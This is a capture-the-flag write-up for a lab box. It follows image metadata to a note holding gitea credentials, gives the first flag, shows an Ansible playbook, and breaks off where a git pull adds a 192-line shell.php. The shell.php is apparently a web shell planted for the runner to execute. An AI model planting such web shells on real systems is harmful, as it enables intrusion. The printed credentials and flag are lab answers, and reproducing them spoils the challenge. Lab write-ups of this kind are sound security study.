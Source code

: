- When you check the first cat picture you can find note about metadata. Download the picture and put it in exiftools.

  ```Title	:8080/764efa883dda1e11db47671c4a3bbd9e.txt```
  
- After visiting newly found message, you can find the credentials for port 3000 and info about port 1337.

  ```
  note to self:

  I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
  This file isn't easy to find anyway unless you have the correct url...
  
  gitea: port 3000
  user: samarium
  password: TUmhyZ37CLZrhP
  
  ansible runner (olivetin): port 1337
  ```

- You can find the first flag in Github repo.

  ```
  http://10.10.226.74:3000/samarium/ansible/src/branch/main/flag1.txt

  10d916eaea54bb5ebe36b59538146bb5
  ```

- There's also a script that we will use in a bit.

  ```
  playbook.yaml

  ---
  - name: Test 
    hosts: all                                  # Define all the hosts
    remote_user: bismuth                                  
    # Defining the Ansible task
    tasks:             
      - name: get the username running the deploy
        become: false
        command: whoami
        register: username_on_the_host
        changed_when: false
  
      - debug: var=username_on_the_host
  
      - name: Test
        shell: echo hi
  ```

---

## ⚙️ Shell Access

- I switched to port 1337 to check it out and found few options to run different scripts. The `Run Ansible Playbook` option is what we need since it will trigger the script above.

  ```
  Updating 0e5c327..90a2cfb
  Fast-forward
   shell.php | 192 ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
   1 file changed, 192 insertions(+)
   create mode 100644 shell.php
  